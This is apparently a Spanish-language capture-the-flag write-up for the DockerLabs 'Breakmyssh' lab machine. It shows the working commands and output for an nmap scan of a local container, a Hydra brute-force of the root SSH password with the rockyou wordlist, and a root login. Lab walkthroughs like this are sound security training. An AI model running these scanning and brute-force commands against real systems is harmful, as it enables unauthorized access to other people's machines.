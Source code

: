 #Breakmyssh DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

Empezamos con un escaneo de puertos con nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 20:55 CEST
Nmap scan report for 172.17.0.3
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.18 seconds

```

Vemos solo un servidor ssh con una version de OpenSSH 7.7.
Probamos a hacer un ataque de fuerza bruta con Hydra al usuario "root" para probar y encontramos que la contraseña es "estrella":

```shell
└─$ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3/ -t 5
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).


Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 21:24:39
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344400 login tries (l:1/p:14344400), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.3:22/
[22][ssh] host: 172.17.0.3   login: root   password: estrella
```

Entramos en el servidor con estos datos:

```shell
└─$ ssh root@172.17.0.3
```

```shell
root@f83a9e7115cf:~# whoami
root
```
